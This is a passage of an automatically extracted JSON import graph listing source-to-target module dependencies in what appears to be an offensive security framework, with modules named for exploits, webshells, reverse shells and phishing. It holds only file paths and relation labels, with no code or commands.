"EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/pipeline_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/autonomous_exploit_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "cli/assign.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/session_ops.py", "target": "modules/enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/shellsys.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/shellsys.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/shellsys.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/sleep_obfuscation.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/sleep_obfuscation.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/sleep_obfuscation.py", "target": "modules/sleep_obfuscation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/sleep_obfuscation.py", "target": "modules/sleep_obfuscation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/sleep_obfuscation.py", "target": "modules/sleep_obfuscation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/socks_proxy.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/socks_proxy.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/socks_proxy.py", "target": "modules/socks_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/socks_proxy.py", "target": "modules/socks_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/socks_proxy.py", "target": "modules/socks_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/supply_chain.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/supply_chain.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/surface.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/surface.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/surface.py", "target": "modules/surface_ops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/surface.py", "target": "modules/estorides_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/surface.py", "target": "modules/attack_surface3d.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/output_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/session_hud.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/config_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/config_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/output_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/output_mode.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/commands/ux.py", "target": "cli/fuzzy_match.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/config_status.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/contextual_help.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/contextual_help.py", "target": "cli/phase_labels.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/contextual_help.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/reasoning_stream.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/dashboard_layout.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/dashboard_layout.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/dashboard_tui.py", "target": "cli/dashboard_layout.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/doctor.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/doctor.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/doctor.py", "target": "core/profiles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/engagement_hooks.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/engagement_hooks.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/engagement_hooks.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/engagement_hooks.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/exploit_advisor.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/exploration_view.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/exploration_view.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/fuzzy_match.py", "target": "cli/fuzzy_picker.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/graph_overlay.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/graph_overlay.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/graph_overlay.py", "target": "core/text_utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/graph_overlay.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/graph_overlay.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/killchain.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_monitor.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_monitor.py", "target": "modules/jsonl_tail.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_monitor.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_monitor.py", "target": "modules/loop_progress.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_monitor.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_monitor.py", "target": "modules/lazy_runner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/jsonl_tail.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/orchestrator_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazy_orchestrator.py", "target": "modules/lazy_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazynmap_post.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/lazynmap_post.py", "target": "cli/recon_plan.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/ops_commands.py", "target": "core/safe_console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/ops_commands.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/ops_commands.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/ops_commands.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "core/text_utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_command.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_overlay.py", "target": "cli/palette_command.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_overlay.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_overlay.py", "target": "core/text_utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_overlay.py", "target": "cli/palette_telemetry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_overlay.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/palette_overlay.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/protips.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/protips.py", "target": "cli/noise_verbs.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/purple_tui.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/reactive_hints.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/reactive_hints.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/reactive_hints.py", "target": "cli/noise_verbs.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/reactive_hints.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/reactive_hints.py", "target": "core/text_utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/reasoning_stream.py", "target": "core/text_utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recommendation_signals.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recommendation_signals.py", "target": "cli/recommendation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recommendation_signals.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recommendation_signals.py", "target": "modules/apt_playbooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recommendation_signals.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recommendation_signals.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recommendation_signals.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recommendation_signals.py", "target": "cli/recon_plan.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recon_plan.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/recon_plan.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/registry.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/scope_guard.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/session_hud.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/session_resumer.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/session_resumer.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/sessions_browser.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/sessions_browser.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/splash.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/splash.py", "target": "cli/style.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/status_bar.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/status_bar.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/style.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/surface_tui.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/surface_tui.py", "target": "cli/surface_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/surface_tui.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/timeline_browser.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/timeline_browser.py", "target": "cli/commands/containers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/noise_verbs.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/phase_labels.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "core/safe_console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "core/text_utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/autosuggest.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/autosuggest.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/palette.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "modules/lazy_rbac.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tips_engine.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/toast_bus.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/toast_bus.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/toast_bus.py", "target": "core/text_utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tui_theme.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/tutorial.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/wizard.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/wizard.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/wizard.py", "target": "core/profiles.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/wizard.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/wizard.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/wizard.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/wizard.py", "target": "cli/marketplace_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "cli/wizard.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyaddon_creator.py", "target": "modules/llm_client.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazybinenc.py", "target": "cli/commands/pwn.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazybinenc.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazybinenc.py", "target": "core/prompt.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazycreate_webshell.py", "target": "modules/lazyencoder_decoder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazygalazy.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazygptcli.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazygptcli.py", "target": "modules/colors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazygptcli.py", "target": "contrib/legacy/lazygptcli_unified.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazygptcli.py", "target": "contrib/legacy/lazygptcli_unified.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "modules/colors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyllmchat.py", "target": "modules/ai_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyllmchat.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazylogpoisoning.py", "target": "modules/lazyencoder_decoder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyopenssh77enum2.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyphishingai.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyproxy.py", "target": "modules/colors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazypwn.py", "target": "cli/commands/pwn.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyreversentlmv2.py", "target": "modules/lazyencoder_decoder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyseo.py", "target": "modules/colors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyssh.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/lazyvsftp.py", "target": "cli/commands/pwn.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "contrib/legacy/sql.py", "target": "cli/commands/pwn.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/dependencies.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/errors.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/http.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/network.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/__init__.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/command_bridge.py", "target": "lazyown.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/config.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/config.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/credential_vault.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/credential_vault.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/credential_vault.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/error_advice.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/errors.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/executor.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/hardening.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/hardening.py", "target": "core/host_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/http.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/network.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/payload_schema.py", "target": "cli/commands/enum.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "core/payload_schema.py", "target": 